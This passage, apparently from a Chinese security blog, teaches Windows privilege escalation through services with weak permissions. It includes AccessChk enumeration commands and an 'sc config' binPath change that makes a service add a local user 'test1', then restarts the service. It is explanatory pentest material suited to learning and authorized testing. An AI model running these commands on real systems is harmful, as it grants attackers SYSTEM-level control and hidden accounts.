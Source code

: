 - http://blog.neargle.com/win-powerup-exp-index/
- https://detect.secwx.com/

### 系统服务提权

windows在系统启动时，由于有些服务是开机自启动的，并且大部分系统服务是以SYSTEM权限启动。应用软件在注册服务时，会在以下路径中创建相应的注册表

```
HKEY_MACHINE\SYSTEM\CurrentControlSet\Services
```

我们可以中该表中找到系统启动时调用的应用二进制文件，通过修改启动路径来执行其他程序从而获得权限

#### 不安全的服务权限

如果目标机器上的低权限用户配置错误，对高权限下运行的系统服务具有更改服务配置的权限(SERVICE_QUERY_ CONFIG或SERVICE_ALL_ACCESS)就可以通过低权限用户修改系统服务启动的二进制文件路径

**AccessChk**

该工具可以枚举目标主机上存在权限缺陷的系统服务

使用该工具枚举当前用户可修改的服务

```
accesschk.exe -uwcqv "XXX" * /accepteula > 1.txt //XXX为当前用户名
```

![2](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/prive-long/2.png)

```
sc qc 服务名称  //查看该服务启动时的权限
```

![3](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/prive-long/3.png)

然后修改执行路径为我们想要执行的命令

```
# binpath,指定二进制文件的路径 ，注意这里的"="后面要留有空格
sc config VMTools binPath= "net user test1 abc123! /add"  
//这里的路径可修改为上传到服务器的exe可执行文件，并使用cmd.exe指定该文件路径进行执行
# 查看查询该服务的执行路径是否修改成功
sc qc xxxx
```

重启系统或是服务

```
shutdown -r -t 0
```

当用户对该服务具有SERVICE_START和SERVICE_STOP权限时，可以使用命令直接重启该服务

```
sc stop xxx
sc start xxx
```

**metaspolit**
